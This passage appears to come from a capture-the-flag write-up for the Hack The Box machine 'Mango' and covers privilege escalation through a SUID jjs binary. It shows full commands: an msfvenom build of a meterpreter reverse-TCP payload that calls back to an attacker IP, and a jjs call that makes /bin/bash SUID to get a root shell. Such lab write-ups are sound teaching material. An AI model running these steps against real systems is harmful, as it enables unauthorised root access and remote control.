 
A quick search on [GTFObins](https://gtfobins.github.io/gtfobins/jjs/) shows that we can execute commands with `jjs`.

I can quickly get the root flag with:

![](/assets/images/htb-writeup-mango/root1.png)

Or get a proper shell by generating a meterpreter shell with the `PrependSetuid` option:

```
root@kali:~/htb/mango# msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o met LHOST=10.10.14.11 LPORT=4444 PrependSetuid=true
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 146 bytes
Final size of elf file: 266 bytes
Saved as: met
```

![](/assets/images/htb-writeup-mango/root2.png)

![](/assets/images/htb-writeup-mango/root3.png)

Or, a faster way to get a root shell is to make bash SUID:

```
admin@mango:/home/admin$ jjs
Warning: The jjs tool is planned to be removed from a future JDK release
jjs> Java.type('java.lang.Runtime').getRuntime().exec('chmod u+s /bin/bash').waitFor()
0
jjs> 
admin@mango:/home/admin$ /bin/bash -p
bash-4.4# id
uid=4000000000(admin) gid=1001(admin) euid=0(root) groups=1001(admin)
```